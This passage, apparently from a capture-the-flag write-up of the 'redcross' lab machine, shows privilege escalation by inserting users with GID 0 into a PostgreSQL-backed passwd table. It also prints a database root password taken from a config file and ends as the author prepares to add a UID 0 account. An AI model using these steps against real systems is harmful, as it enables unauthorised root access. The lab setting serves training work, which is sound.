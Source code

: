 Ugh. Same problem again, let's try adding a user without setting the UID, but only the GID:

```
unix=> insert into passwd_table (username, passwd, gid, homedir) values ('snowscan','$6$oTkOZvSm$T5279pL/85f822ryylJBp0kHgGRoELCHb4OOBtwmkWWxZ6re/Vlxx6UAzEdZxhzd/MbSyjR5Kp1x4rtNCgHsJ1',0,'/root');
ERROR:  duplicate key value violates unique constraint "passwd_table_username_key"
DETAIL:  Key (username)=(snowscan) already exists.
unix=> insert into passwd_table (username, passwd, gid, homedir) values ('snowscan2','$6$oTkOZvSm$T5279pL/85f822ryylJBp0kHgGRoELCHb4OOBtwmkWWxZ6re/Vlxx6UAzEdZxhzd/MbSyjR5Kp1x4rtNCgHsJ1',0,'/root');
INSERT 0 1
unix=> select * from passwd_table;
 username  |                                               passwd                                               | uid  | gid  | gecos |    homedir     |   shell   
-----------+----------------------------------------------------------------------------------------------------+------+------+-------+----------------+-----------
 tricia    | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp.                                                                 | 2018 | 1001 |       | /var/jail/home | /bin/bash
 snowscan  | $1$ANxI97CM$noo3OJtS7FevXzzfR//ih0                                                                 | 2020 | 1001 |       | /var/jail/home | /bin/bash
 snowscan2 | $6$oTkOZvSm$T5279pL/85f822ryylJBp0kHgGRoELCHb4OOBtwmkWWxZ6re/Vlxx6UAzEdZxhzd/MbSyjR5Kp1x4rtNCgHsJ1 | 2022 |    0 |       | /root          | /bin/bash
(3 rows)
```

Allright, we can log in now, but still don't have access to read root.txt, we'll need to have a UID of 0 to do that:

```
snowscan2@redcross:~$ ls -l
total 12
drwxr-xr-x  3 root root 4096 Jun  6 14:05 bin
drwxrwxr-x 11 root root 4096 Jun  7 17:32 Haraka-2.8.8
-rw-------  1 root root   33 Jun  8 06:51 root.txt
snowscan2@redcross:~$ cat root.txt
cat: root.txt: Permission denied
```

We can now read `nss-pgsql-root.conf` since we are part of root's group and we find more credentials: `unixnssroot / 30jdsklj4d_3`

```
snowscan2@redcross:/etc$ ls -l nss-pgsql-root.conf
-rw-rw---- 1 root root 540 Jun  8 06:24 nss-pgsql-root.conf
snowscan2@redcross:/etc$ cat nss-pgsql-root.conf
shadowconnectionstring = hostaddr=127.0.0.1 dbname=unix user=unixnssroot password=30jdsklj4d_3 connect_timeout=1
shadowbyname = SELECT username, passwd, date_part('day',lastchange - '01/01/1970'), min, max, warn, inact, expire, flag FROM shadow_table WHERE username = $1 ORDER BY lastchange DESC LIMIT 1;
shadow = SELECT username, passwd, date_part('day',lastchange - '01/01/1970'), min, max, warn, inact, expire, flag FROM shadow_table WHERE (username,lastchange) IN (SELECT username, MAX(lastchange) FROM shadow_table GROUP BY username);
```

Using this account, we are able to create a new user with UID 0:
